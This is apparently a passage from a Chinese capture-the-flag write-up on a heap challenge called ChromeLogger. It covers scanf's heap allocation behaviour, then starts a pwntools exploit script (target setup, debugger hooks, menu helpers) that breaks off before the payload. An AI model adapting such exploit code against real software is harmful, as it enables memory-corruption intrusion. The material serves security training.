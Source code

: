 {% note blue fa-circle-info %}
`scanf`也会分配堆块释放堆块，这在不少wp中也有提到。比如我的题中就有读入`%d`，
分配堆块释放堆块的条件就是有很长很长的数字，例如"000000...1"（省略2000个0），
但是一旦中间出现非数字字符或'\0'，输入就会停止，因此无法控制释放的堆块内容刚好为"bash"。
{% endnote %}

这样一来，非预期大概就没有了，“非预期”也变成“预期”了。

## 完整EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT  = lambda x: f'\x1b[33m{x}\x1b[0m'
GREEN_TEXT = lambda x: f'\x1b[32m{x}\x1b[0m'
EXE = './ChromeLogger'
SLEEP = lambda : sleep(0.125)

def payload(lo: int, useFSOP: bool) -> bool:
    global sh
    if lo:
        if lo & 4:
            sh = process([EXE + '.g', 'PRIVILEGED'])
        else:
            sh = process(EXE + '.xg')
    else:
        sh = remote('node5.buuoj.cn', 26500)
    libc = ELF('./container/lib/libc.so.6')
    libtcmalloc = ELF('./container/lib/libtcmalloc.so.4')

    def dbg():
        if lo & 2:
            # gdb.attach(sh, 'b DisplayLogs\nb PTR_MANGLE\nc')
            gdb.attach(sh, 'b execvp')
            pause()

    def newlog(size: int, asbuf: bool, log: bytes):
        sh.sendline(b'1')
        SLEEP()
        sh.sendline(str(size).encode())
        SLEEP()
        sh.sendline(b'y' if asbuf else b'n')
        SLEEP()
        if not asbuf:
            sh.send(log)
            SLEEP()

    def displaylog():
        sh.sendline(b'2')
        SLEEP()

    def logout():
        sh.sendline(b'3')
        SLEEP()

    def backdoor(register: bool, idx: int=0):
        if register:
            sh.sendline(b'4')
            SLEEP()
        else:
            sh.sendline(str(idx).encode())
            SLEEP()

```